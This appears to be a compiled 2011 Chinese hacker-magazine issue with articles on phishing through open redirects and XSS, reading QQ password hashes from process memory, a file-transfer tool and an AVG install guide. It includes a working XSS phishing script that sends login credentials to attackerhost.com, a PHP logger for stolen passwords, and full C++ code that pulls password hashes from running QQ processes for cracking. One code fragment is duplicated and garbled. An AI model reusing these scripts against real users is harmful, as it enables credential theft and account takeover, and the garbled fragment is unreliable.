# 黑客X档案合订本2011年（上）第二部分

---

么效果呢？（如图5）



图5

这样我们在配合适当的语言渲染下发送给受害者，效果就会好很多！又有人会问，现在很多网民都安装了相关安全软件，比如XX安全卫士、XX网盾等等都带反钓鱼功能。但是经过小黑分析，很多安全软件都是针对钓鱼网址URL，比如 http://cctv-3.163.os.io 加入数据库。如果用户打开这样的网站就会出现报警界面。那么如何突破呢？这个问题很好，小黑这里给出我个人思路：“URL跳转漏洞”。

## 三、URL跳转漏洞助钓鱼“一臂之力”

### 1. 什么是URL跳转漏洞

此漏洞让用户访问恶意网站而不自知。因为Web应用程序接收到用户提交的URL参数后，没有对参数做“可信任URL”的验证，就向用户浏览器返回跳转到该URL的指令。

### 2. 实例

```text
谷歌的URL跳转漏洞
http://www.google.com.hk/search?btnI=&q=allinurl:http://www.sitedirsec.com
```

一般来说，这样URL大部分网民一眼看估计是Google的网站URL，可能都会点击去看看。这样就更好帮助钓鱼攻击泛滥。

### 3. 如何防御

综上所述，基本都是小黑对邮件钓鱼攻击的个人见解，如果有不到位的地方可以一起讨论。这里小黑告诉大家以下几种防范方法：

### 个人用户的建议：

- 提高警惕，不登录不熟悉的网站，键入网站地址的时候要核对，以防输入错误误入狼窝，细心就可以发现一些破绽。
- 不要打开陌生人的电子邮件，更不要轻信他人说教，特别是即时通讯工具上传来的消息，很有可能是病毒发出的。
- 安装杀毒软件并及时升级病毒知识库和操作系统补丁。
- 将敏感信息输入隐私保护，打开个人防火墙。
- 收到不明电子邮件时，不要点击其中的任何链接。

登录银行网站前，要留意浏览器地址栏，如果发现网页地址不能修改、最小化IE窗口后仍可看到浮在桌面上的网页地址等现象，需立即关闭IE窗口，以免账号密码被盗。

### 企业用户的建议：

- 安装杀毒软件和防火墙。
- 加强电脑安全管理，及时更新杀毒软件，升级操作系统补丁。
- 加强员工安全意识，及时培训网络安全知识。
- 一旦发现有害网络，要及时在防火墙中屏蔽它。
- 为避免被“冒名”，可以加大制作网站的难度。具体办法包括：不使用弹出式广告、不隐藏地址栏、不使用框架等。这种防范是必不可少的，因为一旦网站名称被“网络钓鱼”者利用，企业也会被卷进去，所以应该在泛滥前做好准备。

## 四、跨站技术滋生的钓鱼攻击

### 1. 什么是跨站漏洞攻击

业界对跨站攻击的定义如下：“跨站攻击是指入侵者在远程WEB页面的HTML代码中，插入具有恶意目的的数据，用户认为该页面是可信赖的，但是当浏览器下载该页面，嵌入其中的恶意脚本就会执行。”由于HTML语言允许使用脚本进行简单交互，入侵者便通过技术手段在某个页面里插入一个恶意HTML代码。例如，论坛保存的用户信息（Cookie），由于Cookie保存了完整的用户名和密码资料，用户就会遭受安全损失。如这句简单的JavaScript脚本就能轻易获取用户信息：`alert(document.cookie);`，它会弹出一个包含用户信息的消息框。入侵者运用脚本就能把用户信息发送到他们自己的记录页面中，稍做分析便可获取用户的敏感信息。

### 2. 跨站攻击是如何滋生钓鱼攻击的

相信大家肯定见过跨站，也就是XSS，有些朋友可能会不以为意（如图6），其实它危害还是相当大的。还经常伴随着页面变形的情况。而所谓跨站脚本执行漏洞，也就是通过别人的网站达到攻击的效果，这种攻击能在一定程度上隐藏身份。虽然XSS漏洞攻击方法很多，但是我们今天主题是钓鱼攻击。


图6

```html
<!-- hypothetical index.php page -->
<form method="POST" action="somepage.php" name="userslogin">
  User: <input type="text" name="user"><br />
  Pass: <input type="password" name="pass"><br />
  <input type="submit" name="submit" value="Login">
</form>
<!-- EOF -->
```

这是一个登录表单，这里没有SQL注入，现在我们就可以利用当前发现的XSS漏洞开工了。我们需要的信息：

- 登录表单 `userslogin`
- 用户名文本域 `userslogin.user`
- 密码文本域 `userslogin.pass`

如果页面中包含登录表单与搜索引擎，可以通过劫持提交的数据，使其发送到我们控制的远程主机上建立的网页，而非 `somepage.php`。我们可以将恶意构造的URL链接发送给别人，让他们登录，比如：

`http://download.csdn.net/sort/tag/<script>alert('yes')</script>"<script src="http://xxxxx.com/phishing.js"></script>`

```javascript
/* phishing.js */
Form = document.forms['userslogin'];
function stealLogin(){
  var iframe = document.createElement('iframe');
  iframe.style.display = 'none';
  iframe.src = 'http://attackerhost.com/getlogin.php?user=' + Form.user.value + '&pass=' + Form.pass.value;
  document.body.appendChild(iframe);
}
Form.onsubmit = stealLogin();
/* EOF */
```

```javascript
php?user='?
  ?" + Form.user.value + "&pass=" + Form.pass.value;
document.body.appendChild(iframe);
}
Form.onsubmit = stealLogin();
/* EOF */
```

下面这段代码可以将登录认证提交给在页面主体内容中创建的隐藏iframe，并加载其它恶意PHP脚本，以获得用户名与密码并保存它们。代码如下：

```php
/* getlogin.php */
<?php
if((isset($_GET['user'])) && (isset($_GET['pass']))) {
  // Sets the path and opens the dump file
  $file_path = 'stolenlogins.txt';
  $file = @fopen($file_path,'a');

  // Generate the string
  $string = 'User: ' . $_GET['user'] . ' and Pass: ' . $_GET['pass'] . "\n";

  // Writes the data and close the opened file
  @fwrite($file,$string);
  @fclose($file);
}
?>
/* EOF */
```

这些代码很容易理解：获取登录用户名与密码，并写入一个文件中。给定这两个恶意脚本，攻击者就可以利用这个“小游戏”（管理员经常这样认为）的漏洞，获得重要的认证信息，使通过WEB程序验证成为可能，当然，这只是举个例子！

一般情况下，直接进行类似 `alert(document.cookie)` 之类的攻击没有什么问题，但是有时CGI程序对用户的输入进行了一些处理，这时我们就需要使用一些小技巧来绕过这些限制。如果你对HTML语言比较熟悉的话，绕过这些限制应该不成问题。（XSS部分代码来源于网络，版权归原作者所有）

### 3. 如何防御跨站攻击

要避免受到跨站脚本执行漏洞的攻击，需要程序员和用户两方面共同努力：

## 安全第一

- **程序员：**
  - 过滤或转换用户提交数据中的HTML代码。
  - 限制用户提交数据的长度。

- **用户：**
  - 不要轻易访问别人给你的链接。
  - 禁止浏览器运行JavaScript和ActiveX代码。

附：常见浏览器修改设置的位置为

- **Internet Explorer：**
  - 工具 -> Internet选项 -> 安全 -> Internet -> 自定义级别
  - 工具 -> Internet选项 -> 安全 -> Intranet -> 自定义级别

- **Opera：**
  - 文件 -> 快速参数 -> 允许使用Java
  - 文件 -> 快速参数 -> 允许使用插件
  - 文件 -> 快速参数 -> 允许使用JavaScript

**防范方法：**

软件钓鱼攻击，一般只存在于想对某游戏或者某应用程序进行投机取巧的操作，所以小黑建议尽量少用外挂和来源模糊、诱惑力高的软件，天下没有免费的午餐。有需要输入个人信息的（比如游戏的账号密码、手机号码等）更需要慎重。


## 五、软件钓鱼

软件钓鱼这种钓鱼方法没有前两种犀利，个人感觉有点鸡肋（守株待兔的感觉）。就是制造好一个软件然后发布在网络上，等待别人下载，触发里面事件盗取了你的账号（如图7）。

### 六、总结

说到这里，大部分的钓鱼攻击基本都给大家介绍完了，当然还有没有介绍到的地方，还请大家多包涵。在XSS利用方面，对于新手朋友还是建议有一定基础情况下进行相关测试。钓鱼攻击说到底，无论如何变化都是那么几样，只要你操作之前细心观察，没有投机取巧的心理，钓鱼攻击就会从我们身边逐渐远去。

## 巧用“虫洞”安全传输文件

很多网盘都提供了文件共享下载功能，允许您将文件上传到网盘中，并为其分配外链地址，这样您只需将该地址告诉别人，别人就可以方便快捷地下载文件了。其好处是便于文件大面积共享。不过问题也随之而来，当您希望将机密文件共享给指定好友时，如果采用上述方法，就容易产生信息泄露的问题。只要知道了下载地址，任何人都可以下载您的机密文件。iWormhole巧妙地解决上述难题：iWormhole不是为文件提供共享地址，而是使用独特的安全识别码来标识文件，同时允许为文件设置下载密码。指定的用户只能使用属于自己的识别码来下载文件，当文件下载之后可以自动删除。在数据传输过程中，还使用高强度加密算法保证文件的安全性。

当初次使用iWormhole时，在向导窗口，如图1中选择“I want to register new iWormhole.com account”项。

在下一步窗口，如图2中依次输入您的姓名、账户名称、密码以及邮箱地址，点击“Next”按钮，完成属于您的iWormhole账户创建操作。

之后在向导界面中选择“I have an account on iWormhole.com”项，在下一步窗口中输入您的iWormhole账户名、密码和邮箱地址，点击“Next”按钮，完成账户的登录操作。随后在桌面上即可出现独特的iWormhole悬浮窗，如图3，您可以将其拖动到桌面任意位置。有趣的是，当鼠标指针移动到iWormhole悬浮窗上，悬浮窗中即可出现奇特光影变化的效果，如同打开了宇宙中神秘的虫洞之门。


图1


图2

当您需要通过iWormhole传输文件时，只需将文件拖动到iWormhole悬浮窗中，即可打开文件发送窗口，如图4。在窗口顶部显示文件的名称、类型、大小等信息。在“To”栏中输入目标邮箱地址，每一行对应一个邮箱地址，您可以输入多个邮箱地址。当然，也可以点击“Address Book”按钮，在邮箱管理器中添加所需的邮箱地址，这样可以快速输入邮箱信息。在“Subject”栏中可以设置邮件主题（默认为选定的文件名），在“Comments”栏中可以输入其描述信息。为了提高文件共享的安全性，最好勾选“Protect this file with password”项，在其右侧输入密码。以后下载本文件时，必须输入预设的密码方可。

点击“Send file”按钮，在iWormhole悬浮窗中出现文件发送信息，如图5，包括发送的速度、剩余的时间、进度信息等。如果点击“Stop”按钮，可以取消文件发送操作；当然，您也可以在iWormhole悬浮窗右键菜单中点击“Send file”项，选择目标文件，同样可以执行文件发送操作。


图3


图4


图5

## 安全第一

iWormhole采用了独特的文件标识码来下载文件；当用户进入自己的邮箱后，打开iWormhole发来的确认邮件，在其中显示文件发送信息，其中的“FILE PICKUP ID#”栏中就是该文件的安全识别码，如图6。



图6

使用者必须安装运行iWormhole，在其悬浮窗右键菜单中点击“Pickup file”项，在弹出窗口中输入该文件安全识别码，点击OK按钮，iWormhole就可以据此执行文件下载操作。如果为其设置了密码的话，必须输入正确的密码方可下载，如图7。


图7

下载完成后，会自动打开文件保存路径（默认为我的文档中的“My Downloads”文件夹），在其中可以浏览得到的所有文件。值得说明的是，在文件传输和下载过程中，iWormhole使用256位AES高强度加密算法对数据进行加密处理，保证数据传输的安全性。此外，当接收者打开自己的邮箱，收到您发送来的文件存储信息，并使用该文件的下载识别码下载完文件后，iWormhole可以自动将该文件从远程存储空间中删除。

安全识别码执行下载操作时，iWormhole将提示下载失败，这就避免了敏感文件被随意下载的问题。当然，您如果将文件发送到多个邮箱，不同邮箱的主人就可以得到各自的文件安全识别码。尽管这些识别码完全相同，但是不影响其多次下载操作。也就是说，每一个邮箱主人都可以执行一次文件下载操作。注意，对于免费版用户来说，文件只能在远程服务器上存储72小时。

在iWormhole悬浮窗右键菜单中点击“Settings”项，在设置窗口（如图8）顶部点击“Tweaks”按钮；在“Downloaded files location”栏中点击“Choose”按钮，可以更改下载文件保存路径。如果您使用代理服务器上网的话，需要选择“Manually enter proxy settings”项，输入代理服务器的地址和端口号。在“Sounds”面板中的“Startup”“Transfer started”“Transfer finished”等列表中可以分别设定启动iWormhole、开始文件传输、文件传输完成后的提示音。

在窗口顶部点击“Advanced”按钮，在窗口下部的“Threads count”栏中拖动滑块，可以调整文件传输使用的线程数量；在“Chunk size”栏中拖动滑块，可以设置文件分块传输的尺寸。如果您的显卡支持CUDA技术，那么在窗口顶部点击“GPU”按钮，勾选“Use my video-card to boost encryption speed”项，表示允许使用显卡自带的CUDA并行计算架构来加速文件加密的速度。在“Select CUDA-compatible device”列表中选择合适的显卡设备即可。实际上，现在主流的NVIDIA显卡都支持CUDA技术。



图8

（本文所涉及的iWormhole软件已收录在本期光盘中）

## 内存读取破解QQ密码

QQ账号的安全防护一直是一个热门话题，关于键盘记录等技术的实现方式在网上的讨论非常多。由于攻防不断升级，QQ自身的安全性也在不断提高。从QQ最近几年的技术实现来看，QQ的键盘输入安全一直是重点关注对象，要进行密码获取将会涉及到一些比较底层的技术，难度相对较大。但是，从另外一个角度去思考问题，我们会发现一些用户不多却非常有效的方法，本文将为大家介绍使用内存读取的方法来破解QQ密码。

我们通过输入正确的账号密码完成QQ的登录。在这个过程中，QQ除了把账号密码发送到服务器进行验证之外，还会在内存中保存至少一份密码的哈希值，这个值可以进行之后的一些访问验证，比如打开QQ游戏等。我们要通过内存读取的方式来获得QQ密码，首先需要知道QQ密码哈希值到底放在内存的哪个位置。当然，我们没有必要自己编程搜索哈希值的位置。有一个开源的软件叫Cheat Engine，它本来是用来在打游戏的时候作弊用的，不过我们可以利用它很好地完成搜索哈希值的任务。


图1

首先运行QQ（笔者用的是QQ2010正式版(1720)，若版本不同，哈希值的内存存放位置也可能会不一样），输入自己的账号密码登录之后就不用再管它了。然后我们需要获得自己QQ密码的哈希值，这个值将要被用来搜索QQ进程空间里面密码哈希值的位置。QQ密码的哈希值是用MD5算法计算出来的，所以我们也需要一个MD5计算工具来计算自己的密码的哈希值。这类计算工具非常多，有在线的也有本地的，笔者用的是一个叫HASH的工具。我们新建一个文本文件，把密码写在里面然后保存文件，用这个工具打开这个保存了密码的文本文件，即可看到密码的哈希值为 `21232F297A57A5A743894A0E4A801FC3`。（图1）

打开Cheat Engine 5.4，点击左上角的那个小电脑图标，选择我们要打开的进程“QQ.exe”。界面上的“Value type”选择为“Array of Bytes”，表示我们要搜索连续的字节，勾选“Hex”标签前面的选择框，然后把前面得到的哈希值粘贴到“Hex”后面的文本框。（如图2）



图2

点击“First Scan”，开始我们的第一次搜索。软件界面左侧马上显示了3个存放哈希值的位置：00F07494、01A9A364和01ABA97C。这三个值只是存放了密码哈希值的位置地址，这些位置可能是会变动的，我们还要继续寻找指向这些地址的指针。将“Value type”改为“4 Bytes”，分别将上面三个地址粘贴到搜索框，可以得到指向00F07494的地址为01A2E448，指向01A9A364的地址为019749EC，没有找到01ABA97C这个值。现在我们开始感到疑惑了，到底上面哪一个地址才是基址呢？

既然身为基址，那么可以确定的是它在相同的环境中所在的位置是不会变化的。于是，我们可以果断地再开一个QQ，在新开的QQ进程里面重新完成一次上面的过程。这次还是得到3组和之前类似的数据：指向00F07494的地址为01A2E448，指向01A99CE4的地址为01974AAC，没有找到01ACA34C。不难看出，地址为01A2E448的这个指针在两个QQ里面都没有变，我们可以用这个地址来编程实现内存哈希值读取。

本来已经用MFC写过一个GUI程序，但为了方便讲解，重新写了一个控制台界面的程序，尽量避免MFC内容的干扰。此程序使用VC6.0编写并运行通过。

## 安全篇一

```cpp
#include <windows.h>
#include <TlHelp32.h>
#include <stdio.h>

/* MD5的2进制数据大小为128位，即16字节 */
#define MD5SIZE 16
/* 我们之前通过Cheat Engine得到的指针的地址 */
#define BASEPTR 0x01a2e448

/**
 * 将128位MD5信息摘要转换为十六进制方式显示
 * 的字符串并打印显示。
 */
void ShowHashValue(BYTE *md5)
{
    int i;
    BYTE str[MD5SIZE * 2 + 1];

    /* 将2进制数据转换为16进制字符串显示 */
    for(i=0; i < MD5SIZE; i++)
    {
        BYTE high = md5[i] >> 4;
        BYTE low = md5[i] & 0x0f;

        if(high < 10) str[i * 2] = '0' + high;
        else str[i * 2] = 'a' + high - 10;

        if(low < 10) str[i * 2 + 1] = '0' + low;
        else str[i * 2 + 1] = 'a' + low - 10;
    }

    str[MD5SIZE * 2] = '\0';
    printf("MD5:%s\n", str);
}

/**
 * 安全读取指定进程空间内存数据到目标地址
 */
void ReadMemoryData(UINT pid, PVOID pSource, PVOID pTarget, int size)
{
    /* 打开进程 */
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if(hProcess == 0) return;
    ...
}
```

```cpp
DWORD dwOld;
MEMORY_BASIC_INFORMATION mbi;

/* 查询当前内存属性并修改内存权限为读写，读取内存后改回原来的属性 */
VirtualQuery(pSource, &mbi, sizeof(mbi));
VirtualProtect(pSource, size, PAGE_READWRITE, &dwOld);
ReadProcessMemory(hProcess, pSource, pTarget, size, NULL);
VirtualProtect(pSource, size, dwOld, 0);
CloseHandle(hProcess);

/**
 * 打开给定ID的进程，并从中读取哈希值，最终将获得的数据
 * 交给ShowHashValue进行转换显示。
 */
void GetHashValueByProcessID(UINT pid)
{
    PVOID basePtr=(PVOID)BASEPTR;
    PVOID dataPtr=NULL;
    BYTE md5[MD5SIZE];

    /* 读取MD5值的位置 */
    ReadMemoryData(pid, basePtr, &dataPtr, sizeof(PVOID));

    /* 读取MD5的值 */
    ReadMemoryData(pid, dataPtr, &md5, MD5SIZE);

    /* 显示获得的MD5 */
    ShowHashValue(md5);
}

/**
 * 查找所有进程名为“QQ.exe”的进程，根据进程ID分别传递
 * 给GetHashValueByProcessID这个函数进行进一步处理。
 */
void GetAllHashValue()
{
    PROCESSENTRY32 processEntry = { 0 };
    /* 创建系统进程快照 */
    ...
}
```

```cpp
HANDLE hProcessSnap;
hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if(hProcessSnap == INVALID_HANDLE_VALUE)
    return;

PROCESSENTRY32 processEntry;
dwSize = sizeof(PROCESSENTRY32);

/* 开始遍历进程 */
BOOL bRet = Process32First(hProcessSnap, &processEntry);
while(bRet)
{
    /* 判断进程是否为"QQ.exe" */
    if(strcmp(processEntry.szExeFile, "QQ.exe") == 0)
    {
        /* 传入进程ID进行处理 */
        GetHashValueByProcessID(processEntry.th32ProcessID);
    }

    /* 进入下一个进程 */
    bRet = Process32Next(hProcessSnap, &processEntry);
}
CloseHandle(hProcessSnap);
```

```cpp
int main()
{
    GetAllHashValue();
    system("pause");
    return 0;
}
```

程序代码的主要思想是列举所有进程名为“QQ.exe”的进程（主要代码在函数GetAllHashValue中），打开进程后读取我们在上文中获得的指针所指向位置的数据（主要代码在函数GetHashValueByProcessID和ReadMemoryData中），最终将数据转换并显示出来（主要代码在ShowHashValue函数中）。以上代码中函数的具体作用在函数前面的注释里面已经有说明，另外里面有一些系统调用，如果不清楚详细用法可以到网上查，这里不再赘述。

现在我们可以构建并执行程序，控制台界面将显示出所有正在运行的QQ的密码哈希值。我们在控制台界面点击右键，单击“标记”，然后选中MD5值的那串文本，再于标题栏点击右键，点击“编辑->复制”，就可以把文本复制下来了。拿到这串文本，直奔各大MD5破解器吧，如果密码不够强大能马上逆向出来，比如前面示例中的那串MD5值可以逆向得到明文“admin”。

到这里细心的同学应该发现，读取出来的MD5值并没有输出与之相对应的QQ号码，如果一台电脑上开了多个QQ，就不好判断密码是哪一个QQ的了。其实，用相同的方法就可以找出内存中保存的QQ号码，比找密码相对来说简单多了，有兴趣的同学可以继续实践。

## 免费软件，你用哪个？

天涯哀草

AVG继不久以前小红伞登陆中国以后，另一款知名的杀毒软件AVG也发布了其全新的中文网站和中文版。AVG之所以在国际上有那么高的知名度，除了其强大的系统防御功能以外，最重要的就是其针对普通用户是完全免费的。既然有这份免费的午餐，我们也就来好好地尝一尝。

### 一、软件的安装操作

首先从AVG的中文网站（www.avgcn.com.cn）下载AVG最新免费版本的安装程序。下载完成以后双击运行进行安装，AVG为用户提供了“标准安装”和“自定义安装”两种方式，我这里选择第二种方式来进行安装操作。在软件组件的安装界面里面，可以根据自己的需要选择组件（如图1）。这里不仅包括常见的系统防护和病毒扫描组件，还包括邮件扫描和Office文档扫描的组件。

点击“下一步”按钮继续进行安装，发现软件会给IE浏览器添加一个工具条，从而保护用户上网浏览的安全（如图2）。与此同时我还发现，AVG希望将搜索引擎改成百度，看来AVG深知入乡随俗这个道理啊。AVG安装完成以后，软件首先会自动升级病毒库到最新版本，要求用户进行基本的设置，比如自动更新的频率和定时扫描的时间。

设置完成以后软件会弹出一个窗口，要求用户进行优化扫描的操作。马上点击窗口中的“立即优化扫描”按钮，这时软件就会对整个磁盘文件进行分析扫描（如图3）。这个步骤并不是对系统中的病毒进行扫描，而是从系统中找出那些可以不需要扫描的可信文件，这样在进行病毒分析的时候就可以跳过这些文件，从而减少系统病毒扫描所需要的时间。

